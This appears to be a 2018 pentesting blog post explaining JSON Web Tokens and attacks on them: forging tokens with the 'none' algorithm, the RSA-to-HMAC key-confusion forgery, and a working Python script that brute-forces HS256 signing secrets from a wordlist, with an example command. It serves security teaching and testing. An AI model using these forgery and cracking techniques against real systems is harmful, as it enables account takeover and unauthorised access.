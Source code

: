 ```yaml
---
layout: post
title:  "JSON Web Token Pentesting"
date:   2018-04-29 13:49:33 +0000
tags: [JWT, JSON, Web Application, pentest, redteam, blueteam]
---
```

![](/blog/assets/jwt.png)

JSON Web Token (JWT) is a standard for creating tokens that assert some number of claims. The ‘claims’ are signed by the server’s key, so the server is able to verify that the token is legitimate.

JWTs generally have three parts: a header, a payload, and a signature. Each part is base64 encoded:

![](/blog/assets/jwt_2.png)

The header identifies which algorithm is used to generate the signature, and looks something like this:
```
header = '{"alg":"HS256","typ":"JWT"}'
The payload might look something like this:

{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```
The signature is then SHA256-HMAC of the payload and a secret key.
```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  "secret"
)
```
To familiarise your self with JWT you can use the decoder at https://jwt.io/

![](/blog/assets/jwt_3.png)

## Algorithms
### List of algorithms
* None
* HS256
* HS384
* HS512
* RS256
* RS384
* RS512
* ES256
* ES384
* ES512

### The “none” algorithm
Its intended use is for situations where the integrity of the token has already been verified. Interestingly enough, it is one of only two algorithms that are mandatory to implement (the other being HS256). Anyone can create their own “signed” tokens with whatever payload they want, allowing arbitrary account access on some systems.

Putting together such a token is easy.
* Modify the above example header to contain “alg”: “none” instead of HS256.
* Make any desired changes to the payload.
* Use an empty signature (i.e. signature = “”).
Recent implementations should now have a basic check to prevent this attack. If a secret key is provided, that will break the verification of the none algorithm. This is a good idea, but it doesn’t solve the underlying problem: attackers control the choice of algorithm.

### Attackers control the choice of algorithm
Most of the JWT libraries that I’ve looked at have an API like this:
<pre>
verify(string token, string verificationKey)
</pre>
It returns the payload if the token is valid, else it throws an error.

In systems using HMAC signatures, verificationKey will be the server’s secret signing key (since HMAC uses the same key for signing and verifying):
<pre>
verify(clientToken, serverHMACSecretKey)
</pre>
In systems using an asymmetric algorithm, verificationKey will be the public key against which the token should be verified:
<pre>
verify(clientToken, serverRSAPublicKey)
</pre>
Unfortunately, an attacker can abuse this. If a server is expecting a token signed with RSA, but actually receives a token signed with HMAC, it will think the public key is actually an HMAC secret key.

How is this bad? HMAC secret keys are supposed to be kept private, while public keys are typically public. This means that your attacker has access to the public key, and can use this to forge a token that the server will accept.

Doing so is pretty straightforward. First, grab your favourite JWT library, and choose a payload for your token. Then, get the public key used on the server as a verification key (most likely in the text-based PEM format). Finally, sign your token using the PEM-formatted public key as an HMAC key. Essentially:
<pre>
forgedToken = sign(tokenPayload, 'HS256', serverRSAPublicKey)
</pre>
The hardest part is making sure that serverRSAPublicKey is identical to the verification key used on the server. The strings must match exactly for the attack to work — exact same format, and no extra or missing line breaks. End result? Anyone with knowledge of the public key can forge tokens that will pass verification.

## Attacking HS256 a PoC
While this is a limited PoC for HS256 this can be easily adapted to bruteforce the other algorithms.

Updated Code is available here: [https://github.com/netscylla/JWT_Hacking/](https://github.com/netscylla/JWT_Hacking/)
```
#!/usr/bin/python
#(C)2018 Netscylla
#License GNU GPL v3.0

import sys,os
import Queue
import threading
import jwt
from termcolor import colored

NumOfThreads=100
queue = Queue.Queue()

try:
    encoded=sys.argv[1]
    WordList=open(sys.argv[2],'r')
except:
    print "Usage: %s encoded wordlist" % sys.argv[0]
    sys.exit(1)

class checkHash(threading.Thread):
    def __init__(self,queue):
        threading.Thread.__init__(self)
        self.queue=queue
    def run(self):
        while True:
            self.secret=self.queue.get()
            try:
                jwt.decode(encoded, self.secret, algorithms=['HS256'])
                print colored('Success! ['+self.secret+']','green')
                os._exit(0)
                self.queue.task_done()
            except jwt.InvalidTokenError:
                print colored('Invalid Token ['+self.secret+']','red')
            except jwt.ExpiredSignatureError:
                print colored('Token Expired ['+self.secret+']','red')

for i in range(NumOfThreads):
    t=checkHash(queue)
    t.setDaemon(True)
    t.start()

for word in WordList.readlines():
    queue.put(word.strip())

queue.join()
```
Example:
<pre>
python ./JWTCrack.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.BhquqdHL_k3yVeIH2M-tZmerbhvQLUNvluAO0MSaILI ./rockyou.txt
</pre>
![](/blog/assets/jwt_4.png)
